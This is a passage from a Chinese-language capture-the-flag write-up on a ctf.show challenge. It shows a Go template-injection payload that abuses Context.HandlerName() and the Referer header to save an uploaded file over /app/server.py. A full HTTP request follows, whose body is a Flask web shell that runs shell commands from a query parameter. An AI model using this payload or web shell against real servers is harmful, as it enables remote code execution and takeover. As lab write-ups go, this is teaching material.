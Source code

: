 ```go
HandlerName
返回主处理程序的处理器函数名称。例如，如果处理程序是“handleGetUsers()”，此函数将返回“main.handleGetUsers”
```

在`main.go`里，所以如果是在Admin()函数里调用，返回的就是main/route.Admin，在Index()里，返回的就是main/route.Index

这里执行go ssti模块在main.go的Admin里，`Context.HandlerName()`可以获取到`main/route.Admin`，配合`last`过滤器获取最后一个字符串`n`作为文件名


第二个参数：

直接拿`Context`的http请求头里的内容，`c.Request.Referer()`，获取referer`/app/server.py`

payload：

::: v-pre
```go
{{c.SaveUploadedFile(c.FormFile(c.HandlerName()|last),c.Request.Referer())}}
```
:::

有了payload，用bp上传一个server.py文件，覆盖原有的server.py文件，执行命令

拿一个师傅的poc，复制到bp的`Repeate`模块把host，session替换掉，`server.py`可以自己修改

::: v-pre
```plaintext
GET /admin?name={{c.SaveUploadedFile(c.FormFile(c.HandlerName()|last),c.Request.Referer())}} HTTP/1.1
Host: 35e1a5bc-b6c3-4cbb-a4cd-10a1442dd09d.challenge.ctf.show
Referer: /app/server.py
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary8ALIn5Z2C3VlBqND
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie:session-name=MTczMjYxNzExMHxEdi1CQkFFQ180SUFBUkFCRUFBQUlfLUNBQUVHYzNSeWFXNW5EQVlBQkc1aGJXVUdjM1J5YVc1bkRBY0FCV0ZrYldsdXzHBTGHoCnNu3cFSjoBf3yDewNXiCPuYMFdWsXNLwgXAA==
Upgrade-Insecure-Requests: 1
Content-Length: 425

------WebKitFormBoundary8ALIn5Z2C3VlBqND
Content-Disposition: form-data; name="n"; filename="1.py"
Content-Type: text/plain

from flask import *
import os
app = Flask(__name__)

@app.route('/')
def index():
    name = request.args['name']
    file=os.popen(name).read()
    return file

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000, debug=True)
------WebKitFormBoundary8ALIn5Z2C3VlBqND--
```
:::
